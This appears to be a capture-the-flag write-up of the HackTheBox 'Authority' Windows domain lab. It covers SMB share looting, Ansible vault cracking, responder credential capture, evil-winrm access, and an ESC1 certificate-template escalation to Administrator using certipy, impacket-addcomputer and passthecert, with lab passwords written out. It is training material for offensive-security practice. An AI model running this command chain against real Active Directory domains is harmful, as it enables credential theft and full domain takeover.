

# Authority

# Recon

## Nmap

There are many open ports 

- 53 for DNS
- 80 for HTTP
- 88 and 464 for Kerberos
- 135, 139, 445 for SMB
- 636 and 3268 for LDAP
- 3269 for LDAPS
- 8443 for HTTPS

```bash
rustscan -a 10.10.11.222 -- -A -Pn
```

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-04-02 00:20:40Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA/domainComponent=htb
|_ssl-date: 2025-04-02T00:22:00+00:00; +3h59m59s from scanner time.
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA/domainComponent=htb
|_ssl-date: 2025-04-02T00:22:01+00:00; +4h00m00s from scanner time.
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2025-04-02T00:22:00+00:00; +3h59m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA/domainComponent=htb
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8443/tcp  open  ssl/http      syn-ack ttl 127 Apache Tomcat (language: en)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49708/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49714/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
50713/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC

```

First I put the domain name in the /etc/hosts file

```bash
echo "10.10.11.222 authority.htb authority.htb.corp" | sudo tee -a /etc/hosts
```

## SMB(445)

Enumerating shares as **`guest`** user. Found an interesting one named Development which we have access.

```bash
nxc smb 10.10.11.222 -u 'a' -p '' --shares
```

```bash

SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\a: (Guest)
SMB         10.10.11.222    445    AUTHORITY        [*] Enumerated shares
SMB         10.10.11.222    445    AUTHORITY        Share           Permissions     Remark
SMB         10.10.11.222    445    AUTHORITY        -----           -----------     ------
SMB         10.10.11.222    445    AUTHORITY        ADMIN$                          Remote Admin
SMB         10.10.11.222    445    AUTHORITY        C$                              Default share
SMB         10.10.11.222    445    AUTHORITY        Department Shares                 
SMB         10.10.11.222    445    AUTHORITY        Development     READ            
SMB         10.10.11.222    445    AUTHORITY        IPC$            READ            Remote IPC
SMB         10.10.11.222    445    AUTHORITY        NETLOGON                        Logon server share 
SMB         10.10.11.222    445    AUTHORITY        SYSVOL                          Logon server share 

```

There are lot of files and directories in this share so I will download them in my machine. I access the share with **`smbclient`** and I download all of it’s content.

```bash
smbclient //authority.htb/Development -N
```

```bash
recurse on
prompt off
mget *
```



Apache Tomcat credentials found

```bash
admin:T0mc@tAdm1n
robot:T0mc@tR00t
```


## Tomcat(8443)

Tomcat


When I tried to login as admin or robot


**`svc_pwn`** user found.


Ansible vault found in **`Automation/Ansible/PWM/defaults/main.yml` .**


Now I googled crack Ansible vault and found this article : https://exploit-notes.hdks.org/exploit/cryptography/algorithm/ansible-vault-secret/

First I put all the hashes in different files to get their hash

They all have the same hash : **`!@#$%^&*`**


```bash
ansible-vault decrypt ldap_admin_password --output=ldap.txt
ansible-vault decrypt pwn_admin_login --output=login.txt
ansible-vault decrypt pwn_admin_password --output=pass.txt
```

```bash
 cat ldap.txt 
DevT3st@123                                                                                                                                       
┌──(zerodol㉿kali)-[~/…/Automation/Ansible/PWM/defaults]
└─$ cat login.txt 
svc_pwm                                                                                                                                       
┌──(zerodol㉿kali)-[~/…/Automation/Ansible/PWM/defaults]
└─$ cat pass.txt 
pWm_@dm!N_!23 
```

# Shell as svc_ldap

I decrypt the vault with **`ansible-vault`**


We click at Configuration editor and use this password : **`pWm_@dm!N_!23`**. Credentials are stored here but we can see them.


I change the IP to get a request to my machine on LDAP port.


Before that I launch responder

```bash
responder -I tun0
```


```bash
evil-winrm 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
```


# Shell as Administrator

Based on what we have on Ansible directory in the share now, I think the next thing is to enumerate **`ADCS`**.

## ADCS

I use **`certipy`** to search for for vulnerable templates.

```bash
certipy find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.10.11.222  -vulnerable
```


```bash
certipy req -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -ca AUTHORITY-CA -dc-ip 10.10.11.222 -dns authority.authority.htb -template CorpVPN -upn 'Administrator@authority.htb'
```

Create a fake computer

```bash
impacket-addcomputer authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -dc-ip 10.10.11.222 -computer-name fakeComputer -computer-pass '12345678'
```


There is a template name **`CorpVPN`** vulnerable to **`ESC1`** 


## ESC1

ESC1 is a vulnerability that allows unprivileged users to enroll and request a certificate on behalf of any domain object specified by the user. In [this post](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/) we see that templates that are vulnerable to ESC1 have the following configuration :

- Client Authentication: True
- Enabled: True
- Enrollee Supplies Subject: True
- Requires Management Approval: False
- Authorized Signatures Required: 0

It the same for the template **`CorpVPN`**.

 **`svc_ldap`** is authorized to request a certificate using the vulnerable template. 


First I check if the user can create a computer account. The **`MachineAccountQuota`** value is 10 so it’s good. Our user can create a computer account

```bash
nxc ldap 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' -M maq
```


I create a fake computer.

```bash
impacket-addcomputer authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name 'fake' -computer-pass 'Zerodol@1234' -method LDAPS -dc-ip 10.10.11.222
```


Now I use **`certipy`** to request a certificate as **`administrator`**

```bash
certipy req -username fake$ -password 'Zerodol@1234' -dc-ip 10.10.11.222 -ca AUTHORITY-CA -upn administrator@authority.htb -dns authority.thb -template CorpVPN -debug
```


## LDAP Shell

```bash
certipy auth -pfx administrator_authority.pfx -debug
```


```bash
openssl pkcs12 -in administrator_authority.pfx -nocerts -out administrator.key
```


I added the svc_ldap to Administrators group

```bash
passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
```


Now **`svc_ldap`** is a member of **`Administrators`** group


Retrieve the root flag

